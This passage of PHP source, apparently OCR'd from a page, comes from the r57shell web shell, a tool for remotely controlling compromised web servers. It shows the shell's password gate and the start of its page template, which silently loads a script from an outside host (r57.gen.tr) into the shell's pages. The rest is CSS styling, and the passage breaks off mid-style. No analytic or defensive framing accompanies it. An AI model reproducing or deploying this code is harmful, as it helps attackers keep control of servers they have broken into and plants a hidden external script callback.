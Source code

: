   }
 }

if($auth == 1) {
if (!isset($_SERVER['PHP_AUTH_USER']) || md5($_SERVER['PHP_AUTH_USER'])!==$name || md5($_SERVER['PHP_AUTH_PW'])!==$pass)
   {
   header('WWW-Authenticate: Basic realm="r57shell"');
   header('HTTP/1.0 401 Unauthorized');
   exit("&lt;b&gt;&lt;a href=http://www.metalteam.org&gt;metalteam.orgs&lt;/a&gt; : Izin Verilmedi&lt;/b&gt;");
   }
}
$head = '&lt;!-- ??????????  ???? --&gt;
&lt;html&gt;
&lt;head&gt;
&lt;SCRIPT SRC=http://www.r57.gen.tr/yazciz/ciz.js&gt;&lt;/SCRIPT&gt;
&lt;meta http-equiv="Content-Type" content="text/html; charset=windows-1251"&gt;

&lt;STYLE&gt;
tr {
BORDER-RIGHT:  #aaaaaa 1px solid;
BORDER-TOP:    #E8481C 1px solid;
BORDER-LEFT:   #E8481C 1px solid;
BORDER-BOTTOM: #aaaaaa 1px solid;
}
td {
BORDER-RIGHT:  #aaaaaa 1px solid;
BORDER-TOP:    #E8481C 1px solid;
BORDER-LEFT:   #E8481C 1px solid;
BORDER-BOTTOM: #aaaaaa 1px solid;
}
.table1 {
BORDER-RIGHT:  #396D95 0px;
BORDER-TOP:    #396D95 0px;
BORDER-LEFT:   #396D95 0px;
BORDER-BOTTOM: #396D95 0px;
BACKGROUND-COLOR: #396D95
}
.td1 {
BORDER-RIGHT:  #396D95 0px;
BORDER-TOP:    #396D95 0px;
BORDER-LEFT:   #396D95 0px;
BORDER-BOTTOM: #396D95 0px;
font: 7pt Verdana;
}
.tr1 {
BORDER-RIGHT:  #396D95 0px;
BORDER-TOP:    #396D95 0px;
BORDER-LEFT:   #396D95 0px;
BORDER-BOTTOM: #396D95 0px;
}
table {
BORDER-RIGHT:  #E8481C 1px outset;
BORDER-TOP:    #E8481C 1px outset;
BORDER-LEFT:   #E8481C 1px outset;
BORDER-BOTTOM: #E8481C 1px outset;
BACKGROUND-COLOR: #396D95;
}
input {
BORDER-RIGHT:  #000000 1px solid;
BORDER-TOP:    #FC602B 1px solid;
BORDER-LEFT:   #FC602B 1px solid;
BORDER-BOTTOM: #000000 1px solid;